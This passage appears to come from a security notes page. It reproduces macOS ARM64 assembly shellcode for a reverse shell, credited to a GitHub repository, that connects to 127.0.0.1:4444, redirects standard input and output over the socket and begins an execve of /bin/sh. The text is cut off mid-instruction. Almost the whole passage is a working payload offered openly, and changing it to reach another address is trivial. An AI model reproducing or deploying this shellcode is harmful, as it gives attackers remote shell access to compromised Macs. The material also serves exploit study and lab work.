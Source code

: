 ```
#### Reverse shell

From [[https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/master/reverseshell.s|https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/master/reverseshell.s]], revshell to **127.0.0.1:4444**

```armasm
.section __TEXT,__text
.global _main
.align 2
_main:
call_socket:
    // s = socket(AF_INET = 2, SOCK_STREAM = 1, 0)
    mov  x16, #97
    lsr  x1, x16, #6
    lsl  x0, x1, #1
    mov  x2, xzr
    svc  #0x1337

    // save s
    mvn  x3, x0

call_connect:
    /*
     * connect(s, &sockaddr, 0x10)
     *
     * struct sockaddr_in {
     *     __uint8_t       sin_len;     // sizeof(struct sockaddr_in) = 0x10
     *     sa_family_t     sin_family;  // AF_INET = 2
     *     in_port_t       sin_port;    // 4444 = 0x115C
     *     struct  in_addr sin_addr;    // 127.0.0.1 (4 bytes)
     *     char            sin_zero[8]; // Don't care
     * };
     */
    mov  x1, #0x0210
    movk x1, #0x5C11, lsl #16
    movk x1, #0x007F, lsl #32
    movk x1, #0x0100, lsl #48
    str  x1, [sp, #-8]
    mov  x2, #8
    sub  x1, sp, x2
    mov  x2, #16
    mov  x16, #98
    svc  #0x1337

    lsr  x2, x2, #2

call_dup:
    // dup(s, 2) -> dup(s, 1) -> dup(s, 0)
    mvn  x0, x3
    lsr  x2, x2, #1
    mov  x1, x2
    mov  x16, #90
    svc  #0x1337
    mov  x10, xzr
    cmp  x10, x2
    bne  call_dup

call_execve:
    // execve("/bin/sh", 0, 0)
    mov  x1, #0x622F
    movk x1, #0x6E69, lsl #16
    movk x1, #0x732F, lsl #32
    movk x1, #0x68, lsl #48
```